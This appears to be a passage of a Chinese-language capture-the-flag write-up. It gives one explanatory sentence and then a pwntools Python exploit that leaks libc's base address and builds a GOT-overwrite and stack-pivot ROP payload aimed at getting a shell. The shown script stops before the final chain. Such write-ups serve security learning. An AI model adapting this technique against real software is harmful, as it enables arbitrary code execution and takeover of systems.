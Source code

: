 這時就能修改 fx3 的參數 pos = 16，就能剛剛好蓋到 0x7f9c5eaf7098，只要 call puts 就能進入 strlen 再進入 system function，觸發 ROP get shell 了




```python
import re
from pwn import *

context.arch='amd64'

p = process('./chal',env={"LD_PRELOAD":"./libc.so.6"})
libc = ELF('./libc.so.6')

# p = remote('10.99.66.3',31337)

base = int(p.readline(),16) - libc.symbols['printf']
libc.address = base
success(hex(base))


class ROPgadget():
    def __init__(self,libc: ELF,base=0):
        if Path("./gadgets").exists():
            print("[!] Using gadgets, make sure that's corresponding to the libc!")
        else:
            fp = open("./gadgets",'wb')
            subprocess.run(f"ROPgadget --binary {libc.path}".split(" "),stdout=fp)
            fp.close()
        fp = open("./gadgets",'rb')
        data = fp.readlines()[2:-2]
        data = [x.strip().split(b" : ") for x in data]
        data = [[int(x[0],16),x[1].decode()] for x in data]
        fp.close()
        self.gadgets = data
        self.base  = base
    def search(self,s):
        for addr,ctx in self.gadgets:
            match = re.search(s, ctx)
            if match:
                return addr+self.base
        return None   
def fx3(libc,pos = 1, rop_chain=[],nudge=0):
    # 
    # nudge to align stack
    assert(pos>=1)
    assert(pos<=36)
    got = libc.address + libc.dynamic_value_by_tag("DT_PLTGOT")
    plt0 = libc.address + libc.get_section_by_name(".plt").header.sh_addr
    rop = ROPgadget(libc,libc.address)
    escape = rop.search(r"^pop rsp .*jmp rax")
    pivot = rop.search(r"^pop rsp ; ret")
    rop_chain += [escape,got+0x3000-nudge*8] 
    rop_len = len(rop_chain)
    if pos <= rop_len:
        # We can shrink it but make it more complex
        payload = flat([got+0x18+pos*8,pivot])+flat([0]*(pos-1))+p64(plt0)+flat(rop_chain)
    else:
        # We can shrink it but make it more complex
        payload = flat([got+0x18,pivot])+flat(rop_chain)+flat([0]*(pos-rop_len))+p64(plt0)
        
    return got+0x08,payload


rop = ROP(libc)
```